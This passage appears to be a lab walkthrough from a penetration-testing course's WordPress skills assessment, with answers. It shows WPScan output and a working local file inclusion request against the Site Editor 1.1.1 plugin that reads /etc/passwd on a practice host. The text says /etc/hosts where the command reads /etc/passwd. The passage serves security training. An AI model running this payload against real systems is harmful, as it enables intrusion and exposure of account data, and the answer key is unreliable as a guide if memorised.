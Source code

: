 ```
 | Readme: http://blog.inlanefreight.local/wp-content/plugins/site-editor/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/site-editor/, status: 200
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/site-editor/readme.txt

<SNIP>
```

From the output of `WPScan`, students need to search on the found plugins, finding out that [Site Editor 1.1.1](https://www.exploit-db.com/exploits/44340) is vulnerable to local file inclusion.

Answer: `1.1.1`

# Skills Assessment - WordPress

## Question 7

### "Use the LFI to identify a system user whose name starts with the letter "f"."

According to the PoC provided in Exploit Database for [Site Editor 1.1.1 Local File Inclusion](https://www.exploit-db.com/exploits/44340), students need to use `curl` on the `/etc/hosts` file, finding that `frank.mclane` is the system user whose name starts with the letter `f`:

Code: shell

```shell
curl -s http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd | grep -i "^f"
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-j6kdmijpjx]─[~]
└──╼ [★]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd | grep -i "^f"

frank.mclane:x:1002:1002::/home/frank.mclane:/bin/bash
```

Answer: `frank.mclane`

# Skills Assessment - WordPress

## Question 8

### "Obtain a shell on the system and submit the contents of the flag in the /home/erika directory."
